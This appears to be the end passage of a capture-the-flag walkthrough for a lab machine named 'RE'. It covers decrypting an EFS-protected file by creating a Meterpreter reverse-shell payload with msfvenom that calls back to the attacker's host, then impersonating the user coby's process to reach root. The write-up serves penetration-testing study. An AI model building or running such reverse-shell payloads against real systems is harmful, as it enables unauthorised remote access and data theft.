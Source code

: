 ```
    Certificate thumbprint: E088 5900 BE20 19BE 6224 E5DE 3D97 E3B4 FD91 C95D 

    coby(coby@RE)
    Certificate thumbprint: 415E E454 C45D 576D 59C9 A0C3 9F87 C010 5A82 87E0 

  No recovery certificate found.

  Key information cannot be retrieved.

The specified file could not be decrypted.
```

We can see that only "Administrator" and "coby" users can decrypt this file let's try to have a meterpreter rev shell and impersonnate a user coby process like :

Firstly i create a meterpreter rev shell with msfvenom, and execute it from the box :
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=6060 -f exe -o met.exe
```

We have to find a process which run by "coby" and impersonnate it like :

![meterpreter](https://github.com/roughiz/RE-walktrough/blob/master/meterpreter.png)

## Root dance

![flagroot](https://github.com/roughiz/RE-walktrough/blob/master/flagroot.png)
